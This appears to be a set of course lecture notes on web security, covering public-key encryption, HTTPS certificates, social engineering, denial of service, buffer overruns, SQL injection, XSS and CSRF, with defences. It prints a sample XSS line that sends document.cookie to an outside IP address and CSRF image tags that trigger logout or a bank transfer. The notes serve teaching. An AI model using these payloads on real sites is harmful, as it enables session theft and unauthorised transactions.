

Programming for the Web Safely & Securely
So, this SQL query walks into a bar, goes up to two tables and says, "Can I join you?"
Knock, knock.
"Who's there?"
very long pause...
"Java."
"All input is evil until proven otherwise."

Digression: Public Key Encryption
Public-key encryption is based on a fundamental algorithmic asymmetry: factoring numbers into their prime components is harder than multiplying two numbers.
For example, this number is the product of two primes:
Z= 12666337
What are the two factors?
(X= 3571 and Y= 3547)
How easy is it to calculate the prime factors?
vs
How easy is it to verify that those are the factors?
So: design an algorithm to encrypt text with a number Z such that any text so encrypted can be easily decrypted with knowledge of the factorization of Z, i.e. the set of numbers X, Y, ... used to calculate Z.
(See RSA algorithm for a detailed example (RSA == Rivest, Shamir, Adleman)).
Now make Z publicly available: that is your public key. Keep X and Y hidden. Anyone who encrypts a message with Z using the algorithm can send that message to you secure in the knowledge that only someone knowledge of X and Y can decrypt it.
Signing and trust chains
Want to identify sender. Take advantage of fact that decryption is a privileged task, while encryption is not.
Alice: hash message using private key => pass through decryption mechanism. This is the "signature" of the message.
Bob: encrypts signature using Alice's public key, verifies that it equals the hash. Only someone with the decryption key could have produced that signature, ergo, Alice produced the signature.
Can extend this in a chain, where Alice signs Bobs public key, and Bob signs Chris's public key, so that anyone who trusts Alice can verify that she knows Bob and that Bob knows Chris.
Software
See PGP and GPG for software that does all of this...
Security
Paranoia is not just a state of mind, it's a way of life.
An excellent example
"MiG in the middle" story.
Within this framework: can you swap out the pilot or the co-pilot, or can a passenger communicate via the plane's comm system (i.e. subvert the plane)?
Compromising the endpoints OR compromising the middle...
Goals
- (Client) Communicate with specific server.
- (Server) Identify user while protecting against systematic user compromise.
- (Client & server) Communicate securely (no eavesdropping)
- (Server) Handle a lot of users.
Note that "client" cannot be trusted here: could be Evil Chinese Hacker, _or_ could simply be genuine malicious user. The difference is not significant for a site!
Will talk mostly about protocol- and browser-level attacks; network infrastructure attacks are also likely but outside our scope!
Problems
Statelessness - every connection "starts fresh", so can't use single authentication. Must communicate data... but is that data secure?
How do you identify a Web site securely, anyway??
And then there's eavesdropping.
So, the parameters of the problem are:
- must identify server
- must protect data in browser from being sent to wrong server
- must protect communications from eavesdroppers
- server must protect against client-altered data, e.g. changed username
Technologies
Establishing a connection to the right host - DNS, server certificates
Communicating securely with the host - HTTPS
Establishing user identity - authentication
Statelessness - URLs, cookies, and forms
Preventing large-scale compromise - session IDs and hashing
2-factor authentication vs 2-way authentication
2-factor authentication (password + favorite color, for example) now mandated for banks!
But... this simply helps the bank identify you.
2-way authentication w/bank Web sites depends upon DNS and HTTPS server certificates!
Connection-oriented security
Looking up Web sites (Domain Name Service, DNS)
- think of it as a phone book: name => number.
- but a phone book with a hierarchical distrib scheme: master servers dynamically updated DNS.
- fairly insecure: your ISP usually gives you the name servers to use via DHCP, and you have no guarantee that they are correct or untampered with.
Connecting safely to Web sites (HTTPS and server-side certificates)
- S == "Secure Socket Layer"
- end-to-end encryption based on key pairs
How do you know you're talking to the right site??
- digitally-signed certificates: "this site at xxx.yyy.zzz possesses a private certificate, signed by BigCentralAuthority", that identifies them as the genuine xxx.yyy.zzz site."
- umm, how do you know it's xxx.yyy.zzz, anyway? DNS told you...
- certificates must be hard to forge.
- you must trust BigCentralAuthority to not issue multiple certificates.
- end-to-end makes it proof against man-in-the-middle attacks.
Note: BigCentralAuthority can delegate other sites to issue certificates, too, using a chain of trust.
Social engineering, or "compromising the user"
A sucker is born every minute!
"Hello, we are the support desk for YourBigBank. What is your username and password so that we can verify your account information?"
Mangled or confusing or internationalized URLs:
http://www.yourbank.example.com/ http://www.google.com@members.tripod.com/
Also e.g. 0/O and l/1, but with internationalization.
Denial of Service (DoS)
"Here's a 1gb file."
"Here's another 500 of them. Tasty?"
Can saturate:
- connections
- bandwidth
- disk space and RAM
- concurrent connection handling
In some cases (connection, bandwidth) you must protect @ network level.
In other cases (disk space, concurrent connection handling) can regulate within the server.
Most Web servers do not do this well! Specialized mechanisms exist for filtering and proxying.
Buffer overruns
Server uses a fixed-width buffer of size N; client sends N+ data; remaining data sent overwrites (eventually) server code => client can run arbitrary code on server.
In the days of C server code, this was a very common attack:
char buf[256]; recv(buf, amount);
What if 'amount' is negative, or not properly calculated? => buf overflow.
Bleah.
Now most new networking code is written in something other than C; better languages (e.g. Python ;) dynamically allocate buffers.
...but think about the denial of service aspect: perhaps the C route is better, because it won't dynamically allocate 1gb of RAM to receive!
SQL injection
SQL databases are very common esp at big companies, so specific attacks against them have been designed.

Malformed quoting or other "games" with usernames, input values, etc.
That's why you always use placeholders, like '?', in your SQL queries from Python: your SQL interface library handles the quoting.
XSS: Cross-Site Scripting
(a.k.a. "HTML injection")
If attackers can inject arbitrary HTML into your browser, including HTML containing valid JavaScript, then attackers can control your browser.
For example, unquoted posts in message boards or error message display allow you to "take over" a browser.
Works within "same-origin" policy sandbox: JavaScript originates from same site that sent pages & cookies, so the JS can load pages, manipulate cookies, etc.
XSS and HttpOnly: Protecting the Cookie Jar
Can mark your cookies as inaccessible to JavaScript with HttpOnly:
Set-Cookie: ASP.NET_SessionId=ig2fac55; path=/; HttpOnly
This protects against a specific class of attacks that sends your cookies to another URL with a JS redirect:
window.location="http://1.2.3.4:81/r.php?u=" +document.links[1].text +"&l="+document.links[1] +"&c="+document.cookie;
Browser support is still spotty (e.g. FF doesn't entirely work).
Only protects against a particularly easy set of XSS attacks...
XSRF: Cross-Site Request Forgeries
CSRF vulnerabilities occur when a website allows an authenticated user to perform a sensitive action but does not verify that the user herself is invoking that action. The key to understanding CSRF attacks is to recognize that websites typically don't verify that a request came from an authorized user. Instead they verify only that the request came from the browser of an authorized user. Because browsers run code sent by multiple sites, there is a danger that one site will (unbeknownst to the user) send a request to a second site, and the second site will mistakenly think that the user authorized the request.
-- Bill Zeller
Take advantage of stateful mechanisms in browsers designed to help "chain" multiple requests.
Simple example:
<img src="http://foo.com/logout">
That image URL is loaded with full browser credentials! So now you've logged the person out of the site. Annoying -- now imagine
<img src="http://foobank.com/transfer_money?src_account=checking&...">
Attack model:
- you're logged into your bank in one tab/window, or have a login cookie
- you go to another site run by the Evil Chinese Hackers
- ECH site builds a URL (either within a form or with JavaScript) confirming a bank transfer into ECH's bank account (or an e-bay purchase, or a paypal transaction...)
- ECH site gives you this URL to load (with JS, image link, etc.)
With JS or image URLs or ..., you may not even know that the attack is taking place!
Why does this vulnerability exist? Chaining forms, for example.
Protection mechanisms:
- check HTTP referrer (which can break for other reasons).
- Secret, hidden, dynamically generated form value on all your forms.
- Inject your site cookies into your forms with JavaScript, and then compare browser cookies with form values received. This ensures that the author of the forms had direct access to the cookie information.
Two principles for thinking securely about security
- Do you follow the rule that all input is evil until proven otherwise?
- Can you detect a man-in-the-middle attack?
#1 is up to you.
#2 is architectural: the Web is vulnerable to certain man-in-the-middle attacks, but if you use HTTPS you're probably as good as most banks.
Either way, remember: the devil is in the details. KISS so that at least flaws will be obvious to everyone!
References
MiG-in-the-middle attack - use Google.
RSA encryption algorithm:
http://en.wikipedia.org/wiki/RSA
Cross-site scripting:
http://en.wikipedia.org/wiki/Cross-site_scripting
Cross-Site Request Forgeries and You:
http://www.codinghorror.com/blog/archives/001171.html
HttpOnly cookies:
http://www.codinghorror.com/blog/archives/001167.html